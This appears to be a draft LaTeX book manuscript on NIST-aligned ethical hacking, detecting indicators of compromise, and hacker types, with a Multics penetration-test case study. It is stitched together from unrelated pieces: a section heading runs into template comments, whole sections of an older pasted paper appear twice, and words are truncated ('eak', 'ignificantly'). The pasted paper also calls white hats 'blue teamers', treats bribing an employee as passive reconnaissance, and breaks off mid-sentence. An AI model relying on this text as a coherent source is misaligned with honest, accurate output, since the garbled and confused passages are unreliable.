In close analysis of actual real-world implementation challenges and successful aspects, this chapter provides security professionals practical guidelines on implementing NIST-compliant ethical hacking methods that defenders can utilize within their organization's security position. Special emphasis is placed on how compliance to the SP 800 series documents enhances security effectiveness and regulatory compliance in tandem, maintaining operational efficiency and cost-effectiveness in place. This comprehensive examination serves as a definitive resource for a defender who seeks to establish compliant security testing programs that align with industry best practices while addressing contemporary cybersecurity challenges.

\section{NIST-Compliant Ethical Hacking}

\subsection{The Role of Ethical Hacking and Penetration Testing in NIST SP 800}
Ethical hacking and penetration testing are fundamental security practices that simulate cyberattacks to aid a defender in identifying weaknesses in an organization's security defenses. The National Institute of Standards and Technology (NIST) is a non-regulatory agency within the United States Department of Commerce, and its wide focus is on promoting innovation and industrial competitiveness by advancing measurement science, standards, and technology. The NIST plays a crucial role in cybersecurity by providing security frameworks, guidelines, and standards to help defenders and organizations manage and reduce cybersecurity risks. Many organizations voluntarily follow NIST guidelines, while others are required to do so based on their specific security and compliance needs. The NIST provides structured guidance to ensure that ethical hacking engagements, penetration tests, and red team security assessments are thorough, effective, meaningful, actionable, and aligned with an organization's security compliance requirements.
Two significant documents within the NIST Special Publication (SP) 800 series detail methodologies for ethical hacking and penetration testing:
\begin{itemize}
    \item \textbf{NIST SP 800-53 Revision 5}, \textit{"Security and Privacy Controls for Information Systems and Organizations,"} provides a catalog of security and privacy controls for information systems and organizations to protect organizational operations and assets, individuals, other organizations, and the nation from a diverse set of threats and risks, including hostile attacks, human errors, natural disasters, structural failures, foreign intelligence entities, and privacy risks. The controls are flexible and customizable and implemented as part of an organization-wide process to manage risk. The controls address diverse requirements derived from mission and business needs, laws, executive orders, directives, regulations, policies, standards, and guidelines.
    \item \textbf{NIST SP 800-115}, \textit{"Technical Guide to Information Security Testing and Assessment,"} assists organizations in planning and conducting technical information security tests and examinations, analyzing findings and developing mitigation strategies. The guide provides practical recommendations for designing, implementing, and maintaining technical information security test and examination processes and procedures. These can be used for several purposes, such as finding vulnerabilities in an information system or network and verifying and validating compliance with a policy or other requirement. However, the guide is not intended to present a comprehensive information security testing and examination program, but rather an overview of key elements of technical security testing and examination with an emphasis on specific technical techniques, the benefits and limitations of each, and recommendations for their use.
\end{itemize}
\section{Attacker Privilege Escalation to Domain Administrator in Active Directory}

%%%%%%%%%%%%%%%%%%%%% chapter.tex %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% sample chapter
%
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer-Verlag %%%%%%%%%%%%%%%%%%%%%%%%%%
%\motto{Use the template \emph{chapter.tex} to style the various elements of your chapter content.}
\chapter{Analysis of Hacking Security Assessment Artifacts to Create Indicators of Compromise (IOCs) for Defensive Intrusion Detection}
\label{intro} % Always give a unique label
% use \chaptermark{}
% to alter or adjust the chapter heading in the running head

\abstract*{Network security systems are designed to identify and, if possible, prevent unauthorized access to computer and shared network resources. Today, most modern network security systems consist of hardware and software components that work in conjunction with one another to provide a layered line of defense against unauthorized intrusions. Software provides user interactive layers such as password authentication, and system-level layers for monitoring network activities. This chapter examines an application monitoring network that attempts to identify Indicators of Compromise (IOC) by extracting patterns in the network traffic which likely corresponds to unauthorized access. Typical network log data and construct indicators are analyzed to predict network intrusion. Based on these indicators, a fitted model will be created demonstrating which indicators best predict an intrusive event. The ultimate goal of this chapter is to provide network defenders with the guidance to analyze IOCs to make informed decisions to better predict an intrusion event by monitoring and studying recorded events, network traffic, and DNS events.}

\section{Introduction}
%\label{sec:1}
Defending enterprise networks against unauthorized access requires layered security systems that continuously monitor for abnormal network activities, anomalous behaviors, and emerging threats. Modern network defense strategies that rely on a combination of hardware and software components operate together to detect, contain, and prevent intrusions. From a defender's view, software-based monitoring plays a critical role by providing both user-level controls, such as password authentication, and system-level visibility into network behaviors. This chapter explores the use of network traffic monitoring to identify Indicators of Compromise (IOCs), which serve as early warning signs of potential security breaches. By analyzing patterns in aggregated network logs-including newly observed connections, anomalous traffic, and suspicious DNS activity-this chapter aims to enhance the defender's ability to rapidly identify and respond to threats. Using machine learning techniques, particularly XGBoost, a model has been developed that highlights which IOCs are most predictive of an intrusion attempt. The findings reinforce the value of network-level telemetry in bolstering defensive operations and accelerating threat response workflows.

\section{Thinking Like a Defender}

As organizations face an increasingly aggressive threat landscape, the role of cybersecurity defenders has never been more critical. Adversaries continue to evolve their techniques, making it necessary for defenders to proactively detect and respond to unauthorized access attempts before they lead to data loss or operational disruption. In today's data-centric environment, information is one of the most valuable assets to both businesses and attackers alike. High-profile incidents such as the OPM data breach (2015) and the WannaCry ransomware attack (2017) highlight the devastating impacts of successful intrusions.

Defensive strategies must therefore prioritize visibility, speed, and automation. While many organizations invest in advanced security platforms, these tools often require significant resources and expertise to manage-resources that many smaller organizations may lack. To address this challenge, this chapter focuses on leveraging standard network and system logs already present in most IT environments to detect Indicators of Compromise (IOC). By identifying predictive features in common log data, defenders can accelerate threat detection and reduce attacker dwell time. The goal is to enhance the ability for defenders to rapidly identify unauthorized activities, limit the damage of successful intrusions, and ultimately strengthen the security posture of their enterprise.

\section{Identifying Indicators of Compromise Through Defensive Data Threat Modeling}
%\label{sec:2}
In modern cybersecurity operations, the ability to identify Indicators of Compromise (IOCs) is imperative to proactively defend networked systems against persistent and increasingly sophisticated cyberattacks. The approach explained herein emphasizes leveraging audit data already present within enterprise environments to extract meaningful and actionable insights. Specifically, this is achieved by either abstracting the raw audit data or applying classification models to aggregated log data to uncover patterns that align with known attack behavior alongside the Tactics, Techniques, and Procedures (TTPs) of an attacker.

By modeling patterns associated with known intrusion vectors, this chapter provides defenders-such as security analysts, incident responders, and threat hunters-with intelligible and validated indicators that help prioritize investigations. The intent is not only to alert on potentially malicious activities but also to offer analysts a tactical advantage in knowing where to focus their attention within the flood of telemetry produced by complex systems. These indicators can be operationalized in detection systems or serve as enrichment in investigative workflows.

One of the goals is to reduce the cognitive load on defenders by delivering context-aware insights derived from information systems they already manage. In other words, instead of requiring additional tooling, the utilization of existing logs and monitoring systems by building intelligence layers on top of them. This improves analyst efficiency and increases the chances of detecting intrusions early in the attack lifecycle.

Effective intrusion detection is predicated on the identification and abstraction of malicious behavior into IOCs-discrete events or patterns that signal adversary activity; however, improperly configured detection rules or insufficient context can result in two major failures: false negatives (missed detections) and false positives (unnecessary alerts that waste time). To reduce these risks and to effectively avoid alert fatigue, this model factors in contextual signals such as:

\begin{itemize}
    \item The frequency and density of IOCs over short time windows
    \item The criticality of the targeted asset or information system
    \item Whether the event aligns with known threat behaviors or is anomalous in nature
\end{itemize}

While the term "IOC" might suggest a universal fingerprint for malicious activities, real-world breaches often reveal otherwise. Detection delays are common: according to IBMs research, the average time to identify a breach was 197 days, and 69 days to contain it. This lag can stem from many outstanding factors, such as insufficient staffing, knowledge capabilities of IT staff, uncorrelated telemetry, or missing evidence altogether.

Many real-world breaches have stemmed from something as simple as human error such as a misconfiguration-an overlooked S3 bucket, an exposed publicly internet-facing server, or an unprotected database. For example, in 2017, over 123 million consumer records were exposed due to misconfigured Alteryx data repositories. Similarly, publicly accessible U.S. Department of Defense documents were found online, not because of a sophisticated breach, but due to poor configuration hygiene. While these configuration-based incidents are serious, they typically lack the persistence and post-exploitation sophistication of targeted intrusions by advanced adversaries; thereofre, this study focuses on attacks where the threat actor actively exploits access, maintains persistence, and seeks to laterally move across and throughout the network.

Despite the uniqueness of each breach, attacker behavior often follows a common lifecycle. Referencing the NIST SP 800-115 (Technical Guide to Information Security Testing and Assessment), we focus on the two most relevant stages to defenders: Discovery (reconnaissance) and Attack. These phases represent the technical core of intrusions, where adversaries scan, probe, exploit, and entrench. Within the attack phase, NIST identifies key tactics such as:
\begin{itemize}
    \item Gaining initial access
    \item Privilege escalation
    \item System browsing
    \item Installation of additional tooling
\end{itemize}
Modern intrusion detection is still, in many ways, more of an investigative art than a deterministic science. Analysts must sift and parse through extensive logs, correlate events across multiple systems, and differentiate between benign anomalies and true malicious behaviors. Federal information systems, and many regulated industries, follow NIST guidelines that specify how Intrusion Detection and Prevention Systems (IDPS) must function. These security systems are expected to monitor, analyze, and respond to security events in near-real-time.

According to NIST, intrusion detection is defined as the monitoring of events in systems and networks and analyzing them for signs of possible security incidents. Prevention systems go one step further by actively interrupting malicious activities as they are unfolding; however, building reliable information systems from scratch requires not just reactive monitoring, but meaningful telemetry-and lots of it.

Not to mention the volume of log data generated in a typical enterprise environment is immense. From endpoint security to network devices, authentication systems to DNS logs, the challenge is not a lack of data but making sense of it all. Many prior intrusion detection studies relied on datasets that had already undergone feature engineering-meaning someone manually processed the raw logs before threat modeling. That process, while useful for clean datasets, does not reflect the operational reality defenders face daily.

Furthermore, the development of this model was constructed with constraint in mind. Instead of relying on pre-engineered features, it was built using detection logic from raw system log files that mirror what defenders encounter every day. The approach centers around a three-step methodology.

\section{Methodology: From Raw Logs to Predictive IOC Models}
Step 1: Data Ingestion and Feature Construction
We begin by ingesting and parsing raw data logs and then constructing relevant features that will serve as candidate IOCs. These include-but are not limited to-repeated failed login attempts, anomalous DNS queries, unusual outbound connections, or high byte transfers. Data sources vary, so  feature generation is tailored to log type (e.g., firewall vs. authentication logs).

Once features are constructed, we preprocess the dataset by:
\begin{itemize}
    \item Normalizing values for consistency
    \item Handling missing or null values
    \item Segmenting the dataset into training, validation, and testing sets to ensure the model generalizes to unseen data
\end{itemize}
Step 2: Threat Modeling
We apply k-fold cross-validation, a technique defenders use for reducing bias and overfitting, by partitioning the data into multiple folds for training and verification. There are several classification algorithms for which a defender can choose, to include:
\begin{itemize}
    \item Logistic Regression
    \item Random Forest
    \item Support Vector Machines (SVM)
    \item XGBoost (Extreme Gradient Boosting)    
\end{itemize}
Among these, XGBoost has proven and has demonstrated the highest accuracy and F1 score, making it the most effective for our intrusion detection use case. While logistic regression offers interoperability and SVMs provide solid performance, XGBoost's ability to handle noise, complex feature interactions, and large datasets gave it a decisive edge.

Step 3: Evaluation and Interpretation
The final stage involves running the best-fit model against our test dataset and interpreting its results. This is not just about predicting attacks-it is about understanding why those predictions occurred. The goal is to analyze feature importance to determine which IOCs have the strongest predictive power. This helps defenders to shift their focus to the most relevant indicators when building detection rules or responding to alerts.

Examples of high-weight IOCs include:
\begin{itemize}
    \item Sudden surges in DNS lookups and zone transfers
    \item Anomalous network traffic patterns between internal and external hosts
    \item Never-before-seen login sources or privileged accounts
\end{itemize}
These findings not only reinforce known best practices in network defense but also highlight subtle patterns that defenders can proactively monitor.
\section{Structure of This Chapter}
\begin{itemize}
    \item Section 2: Related Work-Review of prior efforts and datasets in IOC detection
    \item Section 3: Intrusion Patterns-An exploration of attacker TTPs and signatures
    \item Section 4: Data Sources-Overview of audit logs and how each contributes to feature generation
    \item Section 5: Feature Construction-Deep dive into how indicators were engineered from raw logs
    \item Section 6: Model Comparison-Evaluation of classification techniques using accuracy and metrics
    \item Section 7: IOC Analysis-Interpretation of top-performing indicators and their significance
    \item Section 8: Ethical and Societal Considerations-Discussion on data privacy, surveillance tasks, and responsible disclosure
    \item Sections 9-10: Conclusions and Future Work-Simulating findings and proposing areas for continued research in automated threat detection and IOC generation
    
\end{itemize}

%%%%%%%%%%%%%%%%%%%%% chapter.tex %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% sample chapter
%
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer-Verlag %%%%%%%%%%%%%%%%%%%%%%%%%%
%\motto{Use the template \emph{chapter.tex} to style the various elements of your chapter content.}
\chapter{Introduction to Ethical Hacking}
\label{intro} % Always give a unique label
% use \chaptermark{}
% to alter or adjust the chapter heading in the running head

\begin{abstract}
Hacking refers to the act of exploiting vulnerabilities in computer networks and information security systems, devices, or applications to gain unauthorized access or control. In malicious contexts, these activities are carried out for personal gain, disruption, or other harmful purposes. Ethical hacking, by contrast, applies the same skills, tools, and methodologies in a lawful and authorized manner to identify and remediate weaknesses before they can be exploited by threat actors.
\end{abstract}

\section{Hackers, Crackers, and Attackers}
In our modern, interconnected digitized world, cybersecurity has become a critical concern for organizations, governments, intelligence agencies, to mid-sized businesses alike. Businesses rely on the Internet for a vast range of activities, including e-commerce, marketing, remote collaboration, and database access; however, the same digital connectivity introduces risks to the confidentiality, integrity, and availability of data and systems. Addressing these risks requires proactive security assessments, one of which is ethical hacking.

Ethical hackers-sometimes called "white hat" hackers, blue teamers, or penetration testers-operate under defined Rules of Engagement (ROE), ensuring their work strengthens security rather than undermines it. This is in stark contrast to malicious "black hat" hackers, crackers, and attackers, whose intent is to cause harm, and "gray hat" hackers, who operate in a legal or ethical "gray" area.

Hacking activities can be broadly classified into three categories:

\begin{itemize}
    \item \textbf{White Hat:} Authorized security professionals who identify and fix vulnerabilities.
    \item \textbf{Black Hat:} Malicious attackers seeking unauthorized access for personal or financial gain.
    \item \textbf{Gray Hat:} Individuals who may exploit vulnerabilities without malicious intent but also without permission or explicit authorization, still risking legal consequences.
\end{itemize}

Ethical hacking typically follows structured penetration testing methodologies, moving through phases such as reconnaissance, network scanning, exploitation, privilege escalation, lateral movement, post-exploitation, and exit strategies. By simulating real-world cyberattacks, these tests provide actionable and meaningful insights into an organization's security posture, enabling targeted remediation efforts.

\section{The Role of Ethical Hacking in Modern Cybersecurity}
As the frequency and sophistication of cyberattacks increase, so does the demand for highly skilled information security professionals with expertise in network penetration testing and ethical hacking. While many courses claim to teach these skills, only a few deliver practical, real-world readiness. One example is SANS SEC560: \textit{Network Penetration Testing and Ethical Hacking,} which prepares participants to conduct professional penetration testing engagements from start to finish. The training emphasizes proper planning, scoping, and reconnaissance, followed by deep dives into network scanning, exploitation, password attacks, and assessments of wireless networks and web applications. Learners conclude with a hands-on \textit{Capture the Flag (CTF)} exercise simulating a full penetration test against a sample organization-reinforcing technical skills, methodology, and operational discipline.

Ethical hacking fits naturally into the broader security lifecycle as a specialized form of security assessment. From a technical perspective, it provides a snapshot of an organization's current security posture. Like other audits or assessments, an ethical hack is a sample-based evaluation-passing it does not guarantee the absence of security issues. The final deliverable is a comprehensive report detailing identified vulnerabilities, along with a statement of whether a skilled attacker, operating within a defined timeframe, scope, and sometimes under a Non-Disclosure Agreement (NDA), could compromise systems or access sensitive information.

The growing reliance on the Internet by both private organizations and government entities amplifies the importance of proactive security measures. Today, systems are used for critical functions such as e-commerce, marketing, online banking, and distributed database management. This reliance increases the potential impact of data breaches, which could expose highly sensitive information such as credit card numbers, personal addresses, telephone numbers, and bank account credentials.

Historically, computer access was limited to authorized personnel; however, unauthorized users-whether driven by curiosity, ego, or financial incentive-have consistently challenged access controls. They may bypass authentication, steal passwords, or exploit system vulnerabilities to gain elevated privileges. While malicious actors (black hats) aim to disrupt, steal, or profit, ethical hackers (white hats) employ similar techniques to strengthen defenses, often exposing flaws before they can be exploited in the wild.

\section{From Early Intrusions to Modern Ethical Hacking}
In the early days of computing, most intrusions were relatively benign-often the result of curiosity rather than malice; however, as networked systems became more common and valuable, these intrusions evolved into serious security threats. Less skilled or careless intruders sometimes caused accidental damage, corrupting or deleting files and forcing system administrators to restore systems from backups. In other cases, when denied access, attackers responded with intentional acts of sabotage aimed at harming organizations.

As destructive intrusions became more frequent, they began to draw public attention, gaining coverage in mainstream media. Rather than using terms such as "computer criminal," journalists popularized the label "hacker," describing individuals who broke into others' systems for motives ranging from fun to revenge to financial gain. Initially, "hacker" was considered a compliment-a term for someone highly skilled in programming and systems knowledge. To differentiate malicious actors from technically adept problem-silvers, the cybersecurity community introduced new terms such as \textit{"cracker,"} or \textit{"intruder"} for those using their skills for harmful purposes.

\subsection{Emergence of Ethical Hackers and Red Teams}
Organizations soon recognized that the best way to defend against intrusions was to think like an attacker. They began employing trained professionals to attempt authorized breaches of their own systems, identifying weaknesses before malicious actors could exploit them. These teams, known as \textit{ethical hackers} or \textit{Red Teams}, use the same tools, techniques, and processes as adversaries-but with the clear intent to improve security. Their role is to uncover vulnerabilities, document findings, and ensure sensitive information remains confidential.

The key distinction lies in \textbf{intent:} while malicious attackers seek exploitation, hackers aim to protect; however, if an ethical hacker were ever to abandon their code of conduct, their insider knowledge could make them a formidable threat.

\section{Case Study; The Multics Security Evaluation}
An early, notable example of organized ethical hacking was conducted by the United States Air Force (USAF), which carried out a structured "security evaluation" of the \textbf{Multics} operating system for use in a two-level (Secret / Top Secret) environment. The evaluation revealed that, while Multics was significantly more secure than its contemporaries, it still had exploitable weaknesses in hardware, software, and operational procedures.

Multics (Multiplexed Information and Computing Service) was a pioneering time-sharing operating system jointly developed in the 1960s by MIT, Bell Labs, and General Electric (GE), later maintained by Honeywell. It was one of the earliest systems designed with security as a core architectural goal, featuring mechanisms such as hierarchical file storage, fine-grained access controls, and ring-based privilege separation. These design choices were revolutionary for the time, intended to support multiple users concurrently while protecting sensitive data. 

Despite its reputation for robust security, Multics was never assumed to be impenetrable. The USAF contracted a formal penetration test to verify whether the system could adequately safeguard classified information at the \textbf{Secret} and \textbf{Top Secret} levels.

\subsection{Scope of the Evaluation}
The USAF tasked a specialized Red Team of security professionals-many of whom were early computer security researchers-to assess a Multics configuration deployed in a classified environment. The evaluation was both \textbf{technical} and procedural, aiming to uncover weaknesses in:
\begin{enumerate}
    \item \textbf{Hardware Security:} Processor-level protections, memory segmentation, and ring-based privilege enforcement.
    \item \textbf{Software Security:} Kernel protections, Access Control Lists (ACLs), and privilege separation in the operating system.
    \item \textbf{Procedural Security:} Operational procedures, user account management, and administrative workflows.
\end{enumerate}

The goal was not only to identify vulnerabilities but also to determine whether realistic adversaries with defined capabilities could compromise the confidentiality or integrity of classified information stored on the system.

\subsection{Testing Methodology}
The evaluation applied early forms of penetration testing-long before the term was widely used-following a process very similar to modern Red Team operations:
\begin{enumerate}
    \item \textbf{Reconnaissance:} Gathering system documentation, user account structures, and operational procedures.
    \item \textbf{Exploitation:} Attempting to bypass access controls, escalate privileges, and access protected data.
    \item \textbf{Persistence Testing:} Determining if access could be maintained without detection.
\end{enumerate}

The testers exploited weaknesses that today ,might be considered both design flaws and misconfigurations, including:
\begin{itemize}
    \item Incomplete enforcement of ring-based privilege separation.
    \item Weaknesses in input validation routines that allowed unauthorized execution pathways.
    \item Overly permissive ACL configurations left in place for user convenience.
    \item Insufficient logging to detect certain types of low-level probing.
\end{itemize}

\subsection{Findings and Revelations}
While Multics outperformed most contemporary systems in terms of security, the evaluation uncovered multiple vulnerabilities.
\begin{itemize}
    \item Certain hardware-level protections could be bypassed through carefully crafted machine code sequences.
    \item Kernel bugs allowed for privilege escalation from a standard user account to full administrative control (ring 0).
    \item Operational practices sometimes undermined the technical security model-for example, shared administrative accounts and unsecured console sessions.
\end{itemize}

The report concluded that Multics could not fully guarantee protection of Top Secret information without significant enhancements, but that it was still significantly more secure than its peers.

\subsection{Impact on Ethical Hacking Practices}
The Multics evaluation was one of the first documented, government-sanctioned penetration tests, setting precedents that shaped future ethical hacking methodologies.
\begin{itemize}
    \item The need to test hardware, software, and human procedures together.
    \item The importance of adversarial simulation rather than purely checklist-based audits.
    \item The value of having independent Red Teams with no operational stake in the system's successes or failures.
\end{itemize}

These principles still form the backbone of modern ethical hacking security engagements and Red Teaming, especially in high-assurance environments such as defense, finance, and critical infrastructure.

\subsubsection{Multics Weaknesses in Modern Terms}

\begin{table}
    \centering
    \begin{tabular}{ccc}
         Historical Finding&  Modern Vulnerability Category& Example in Today's Context (2025)\\
         Hardware-level protections bypassed via crafted machine code&  Privilege Escalation (Hardware / Firmware Exploit)& Exploiting CPU microcode or speculative execution flaws (e.g., Meltdown, Spectre) to bypass isolation.\\
         Kernel bugs allowed elevation from normal user to system admin (ring 0)&  Local Privilege Escalation (Kernel Vulnerability)& Exploiting a Windows kernel driver vulnerability to gain SYSTEM privileges.\\
         Overly permissive Access Control Lists (ACLs)&  Misconfiguration / Excessive Privileges& Cloud IAM role granting unintentional admin rights; NTFS folder with "Everyone Full Control"\\
         Weak input validation allowing unauthorized execution&  Injection / Access Control Bypass& Command injection or path traversal attack in a modern web app or API\\
         Lack of comprehensive logging for low-level activities&  Insufficeint Logging and Monitoring& Missing security event logs in SIEM; inability to detect lateral movement in near-real-time.\\
         Shared administrative accounts&  Poor Identity \& Access Management Practices	& Single admin account reused by multiple staff, reducing accountability and traceability.\\
    \end{tabular}
    \caption{Caption}
    \label{tab:placeholder}
\end{table}

\subsubsection{Why This Matters for Modern Ethical Hacking:}

Today, when ethical hackers assess a system, they still look for the same types of weaknesses—just in modern architectures. Privilege escalation, misconfigurations, insufficient logging, and improper identity management are still top-tier risks, whether in an operating system from the 1970s or a cloud platform in 2025.










During testing, ethical hackers performed a variety of penetration tests-including reconnaissance, information gathering, and controlled exploitation-to identify threats that could compromise system integrity. This structured approach set the stage for modern penetration testing methodologies and underscored the importance of proactively assessing system defenses.

II. ABOUT HACKING  
Hacking is a brainchild of curiosity. As a result of 
curiosity, the hacker always wants to know more about 
information, depending upon his taste. A hacker is a person 
who enjoys learning the details of computer systems and 
enhances his capabilities. He is a computer enthusiast and 
extremely proficient in programming languages, computer 
systems and networks. Popularly, hackers are referred to 
someone who penetrates into computer network security 
systems. It is the hackers who built Internet and make www 
to work. The operating system UNIX is a gift from hackers 
too. Originally, the term hacking was defined as-“ A person 
who enjoys learning the details of computer systems and 
how to stretch their capabilities-as opposed to most users of 
computers, who prefer to learn only the minimum amount 
necessary. One who programs enthusiastically or who 
enjoys programming rather than just theorizing about 
programming”.  
They does not break into systems without authorization 
rather they are the experts who safeguard the networks of 
an organization. They attack the organizations’ systems to 
identify any loopholes, if any, in the security, all while 
staying within the legal limits. Ethical hacking[5] is also 
known as “Penetration Hacking” or “Intrusion Testing” or 
“Red Teaming”. Malicious hacking[2] is the unauthorized 
use of computer and network resources. Malicious hackers 
use software programs such as Trojans, malware and 
spyware, to gain entry into an organization’s network for 
stealing vital information. It may result to identity theft, 
loss of confidential data, loss of productivity, use of 
network resources such as bandwidth abuse and mail 
flooding, unauthorized transactions using credit or debit 
card numbers, selling of user’s personal details such as 
phone numbers, addresses, account numbers etc. In general 
public view, they are the “Criminals of the Cyber World”, 
who has a malicious desire to destroy and harm someone 
others’ network and data. Malicious Hackers are also 
known as “Crackers”. Hackers, be the ethical or malicious, 
have in depth knowledge of their skills but the only 
difference that makes them diverse is the intension.  
Ethical hackers are very patient. They only demand 
time and persistence to intrude into the system and find the 
loopholes in the security. This vital trait of patience can 
also be seen in malicious hacker as he too would keep the 
patience and would monitor the target system for weeks or 
may be for months, and would wait for an opportunity to 
attack the target. The difference is that an ethical hacker 
would keep patience to test the target against any security 
breech while the malicious hacker would keep patience so 
as to gather information and find an opportunity that is 
relevant to attack the target system. It may be observed that 
all techniques and skills employs to both ethical and 
malicious hackers. It is only the intension of the hackers 
that makes them diverse. An ethical hacker would always 
use these techniques and skills to find the weaknesses of 
the target system and how to deal against any malicious 
attacks, whereas the malicious hacker would always try to 
use the techniques and skills to attack the target so as to 
harm and destroy it for some personal interest like money. 
It may be said that the ethical hackers’ job is tough as 
compared to malicious one. This is because an ethical 
hacker would have to identify and understand the changes 
done in the network by the malicious hacker. 

III. TYPES OF HACKING/HACKERS 
The hacking can be classified in three different categories, according to the shades or colors of the “Hat”. The word Hat has its origin from old western movies where the color of Hero’s’ cap was “White” and the villains’ cap was “Black”. It may also be said that the lighter the color, the 
less is the intension to harm. White Hat Hackers are authorized and paid person by the companies, with good intends and moral standing. They are also known as “IT Technicians”. Their job is to safeguard Internet, businesses, computer networks and systems from crackers. Some companies pay IT professionals to attempt to hack their own servers and computers to test their security. They do hacking for the benefit of the company. They break security to test their own security system. The white Hat Hacker is also called as an Ethical Hacker[6]. In contrast to White Hat Hackers, the intension of Black Hat Hackers is to harm the computer systems and network. They break the security and intrude into the network to harm and destroy data in order to make the network unusable. They deface the websites, steal the data, and breach the security. They crack the programs and passwords to gain entry in the unauthorized network or system. They do such things for their own personal interest like money. They are also 
known as “Crackers” or Malicious Hackers.eak computer security to save the organization from intrusion attacks. They never reveal the facts and information about the organization. But at any moment of time, if there intensions get sidetracked; they would be the one who would harm the most. This method of recognizing any intrusions into the network and systems was also used by United States Air Force. They conducted a “security evaluation” of the Multics operating systems for a two-level (secret/top secret) system. Their evaluation found that while Multics was ignificantly better than other conventional systems, it also had loopholes in hardware, software and procedural security. .The hackers performed various penetration tests[4] such as information-gathering, to identify any threat that might damage its integrity.  

II. ABOUT HACKING  
Hacking is a brainchild of curiosity. As a result of curiosity, the hacker always wants to know more about information, depending upon his taste.  hacker is a person who enjoys learning the details of computer systems and enhances his capabilities. He is a computer enthusiast and extremely roficient in programming languages, computer systems and networks. Popularly, hackers are referred to someone who penetrates into computer network security systems. It is the hackers who built Internet and make www to work. The operating system UNIX is a gift from hackers too. Originally, the erm hacking was defined as-“ A person who enjoys learning the details of computer systems and how to stretch their capabilities-as opposed to most users of 
computers, who prefer to learn only the minimum amount 
necessary. One who programs enthusiastically or who 
enjoys programming rather than just theorizing about 
programming”.  
They does not break into systems without authorization 
rather they are the experts who safeguard the networks of 
an organization. They attack the organizations’ systems to 
identify any loopholes, if any, in the security, all while 
staying within the legal limits. Ethical hacking[5] is also 
known as “Penetration Hacking” or “Intrusion Testing” or 
“Red Teaming”. Malicious hacking[2] is the unauthorized 
use of computer and network resources. Malicious hackers 
use software programs such as Trojans, malware and 
spyware, to gain entry into an organization’s network for 
stealing vital information. It may result to identity theft, 
loss of confidential data, loss of productivity, use of 
network resources such as bandwidth abuse and mail 
flooding, unauthorized transactions using credit or debit 
card numbers, selling of user’s personal details such as 
phone numbers, addresses, account numbers etc. In general 
public view, they are the “Criminals of the Cyber World”, 
who has a malicious desire to destroy and harm someone 
others’ network and data. Malicious Hackers are also 
known as “Crackers”. Hackers, be the ethical or malicious, 
have in depth knowledge of their skills but the only 
difference that makes them diverse is the intension.  
Ethical hackers are very patient. They only demand 
time and persistence to intrude into the system and find the 
loopholes in the security. This vital trait of patience can 
also be seen in malicious hacker as he too would keep the 
patience and would monitor the target system for weeks or 
may be for months, and would wait for an opportunity to 
attack the target. The difference is that an ethical hacker 
would keep patience to test the target against any security 
breech while the malicious hacker would keep patience so 
as to gather information and find an opportunity that is 
relevant to attack the target system. It may be observed that 
all techniques and skills employs to both ethical and 
malicious hackers. It is only the intension of the hackers 
that makes them diverse. An ethical hacker would always 
use these techniques and skills to find the weaknesses of 
the target system and how to deal against any malicious 
attacks, whereas the malicious hacker would always try to 
use the techniques and skills to attack the target so as to 
harm and destroy it for some personal interest like money. 
It may be said that the ethical hackers’ job is tough as 
compared to malicious one. This is because an ethical 
hacker would have to identify and understand the changes 
done in the network by the malicious hacker. 
III. TYPES OF HACKING/HACKERS 
The hacking can be classified in three different categories, 
according to the shades or colors of the “Hat”. The word 
Hat has its origin from old western movies where the color 
of Hero’s’ cap was “White” and the villains’ cap was 
“Black”. It may also be said that the lighter the color, the 
less is the intension to harm. White Hat Hackers are 
authorized and paid person by the companies, with good 
intends and moral standing. They are also known as “IT 
Technicians”. Their job is to safeguard Internet, businesses, 
computer networks and systems from crackers. Some 
companies pay IT professionals to attempt to hack their 
own servers and computers to test their security. They do 
hacking for the benefit of the company. They break security 
to test their own security system. The white Hat Hacker is 
also called as an Ethical Hacker[6]. In contrast to White 
Hat Hackers, the intension of Black Hat Hackers is to harm 
the computer systems and network. They break the security 
and intrude into the network to harm and destroy data in 
order to make the network unusable. They deface the 
websites, steal the data, and breach the security. They crack 
the programs and passwords to gain entry in the 
unauthorized network or system. They do such things for 
their own personal interest like money. They are also 
known as “Crackers” or Malicious Hackers.

 Other than white hats and black hats, another form of 
hacking is a Grey Hat. As like in inheritance, some or all 
properties of the base class/classes are inherited by the 
derived class, similarly a grey hat hacker inherits the 
properties of both Black Hat and White Hat. They are the 
ones who have ethics. A Grey Hat Hacker gathers 
information and enters into a computer system to breech 
the security, for the purpose of notifying the administrator 
that there are loopholes in the security and the system can 
be hacked. Then they themselves may offer the remedy. 
They are well aware of what is right and what is wrong but 
sometimes act in a negative direction. A Gray Hat may 
breach the organizations’ computer security, and may 
exploit and deface it. But usually they make changes in the 
existing programs that can be repaired. After sometime, it 
is themselves who inform the administrator about the 
company’s security loopholes. They hack or gain 
unauthorized entry in the network just for fun and not with 
an intension to harm the Organizations’ network. While 
hacking a system, irrespective of ethical hacking (white hat 
hacking) or malicious hacking (black hat hacking), the 
hacker has to follow some steps to enter into a computer 
system, which can be discussed as follows. 
IV. HACKING PHASES 
Hacking Can Be Done By Following These Five Phases. 
 Phase 1: Reconnaissance Can Be Active Or Passive: In 
Passive Reconnaissance[4] The Information is gathered 
regarding the target without Knowledge of targeted 
company (Or Individual). It could be done simply by 
Searching Information Of The Target On Internet Or 
Bribing An Employee Of Targeted Company Who Would 
Reveal And Provide Useful Information To The Hacker. 
This Process Is Also Called As “Information Gathering”. In 
This Approach, Hacker Does Not Attack The System Or 
Network Of The Company To Gather Information. 
Whereas In Active Reconnaissance, The Hacker Enters Into 
The Network To Discover Individual Hosts, Ip Addresses 
And Network Services. This Process Is Also Called As 
“Rattling The Doorknobs”. In This Method, There Is A 
High Risk Of Being Caught As Compared To Passive 
Reconnaissance. 
Phase 2: Scanning: In Scanning Phase, The Information 
Gathered In Phase 1 Is Used To Examine The Network. 
Tools LikeDiallers, Port Scanners Etc. Are Being Used by 
the Hacker to Examine the Network So As To Gain Entry 
in the Company’s System And Network.  
Phase 3: Owning The System: This Is The Real And 
Actual Hacking Phase. The Hacker Uses The Information 
Discovered In Earlier Two Phases To Attack And Enter 
Into The Local Area Network(Lan, Either Wired Or 
Wireless), Local Pc Access, Internet Or Offline. This Phase 
Is Also Called As “Owning The System”. 
Phase 4: Zombie System: Once the hacker has gained the 
access in the system or network, he maintains that access 
for future attacks (or additional attacks), by making 
changes in the system in such a way that other hackers or 
